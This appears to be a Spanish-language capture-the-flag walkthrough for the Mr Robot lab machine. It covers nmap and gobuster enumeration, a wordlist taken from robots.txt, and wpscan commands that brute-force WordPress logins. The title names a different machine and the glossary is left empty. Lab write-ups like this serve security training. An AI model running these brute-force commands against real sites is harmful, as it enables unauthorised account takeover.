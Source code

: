 # Machine Inclusion

## Informtion MrRobot

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -Pn -sV 10.10.206.202
``` 
2. El resultado es el siguiente:

```
PORT   STATE SERVICE VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

## Analisis de vulnerabilidades

- Voy a realizar un scaner con **gobuster**
```
gobuster dir -u http://10.10.206.202/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
- El resultado que tengo es este
```
/index.php (Status: 301)
/index.html (Status: 200)
/images (Status: 301)
/blog (Status: 301)
/rss (Status: 301)
/sitemap (Status: 200)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 301)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/wp-login.php (Status: 200)
/css (Status: 301)
/rss2 (Status: 301)
/license (Status: 200)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/wp-register.php (Status: 301)
/Image (Status: 301)
/wp-rss2.php (Status: 301)
/rdf (Status: 301)
/page1 (Status: 301)
/readme (Status: 200)
/readme.html (Status: 200)
/robots (Status: 200)
/robots.txt (Status: 200)
```
- Voy a esta **URL**
```
http://10.10.206.202/robots.txt
```
- Con esa **URL** ya veo otra ruta, que contiene un diccionario y es esta la Ruta
```
https://10.10.206.202/fsocity.dic
```

## Exploiting

- Vamos a ver cuantas lineas tiene el archivo **fsociety.dic**
```
$ wc -l fsociety.dic
```
- Vemos que hay muchas lineas repetidas y vamos a borrarlas con el comando **uniq** y ordenarla alfabeticamente con el comando **sort** y es asi
```
$ sort fsociety.dic | uniq > dic.txt
```

- Voy hacer un escaneo de **wordpress** con el **wpscan** de esta manera
```
$ wpscan --url http://10.10.206.202 -t 50 -U elliot -P ~/Documents/dic.txt
$ wpscan --url http://10.10.206.202 -t 50 -U ~/Documents/dic.txt -P ~/Documents/dic.txt
```
- Las diferentes opciones son estas
```
--Url: especifica la URL completa que desea escanear (no olvide el ' http ')
-t: la cantidad de hilos simultáneos a usar, elegí 50 en este caso
-U: el nombre de usuario a usar (bueno que enumeramos eso antes, ¿eh?)
-P: el archivo de contraseña para usar
```

## Glosario

- **Nmap -Pn:**  

## Investigación

- **WpScan:** https://www.hackingtutorials.org/web-application-hacking/hack-a-wordpress-website-with-wpscan/

- **WpForce:** https://esgeeks.com/como-hackear-sitio-wordpress-con-wpforce/

## Explotación maquina Inclusion

- http://slayne.github.io/2019/05/19/CTF/

- https://unicornsec.com/home/tryhackme-mr-robot-ctf 
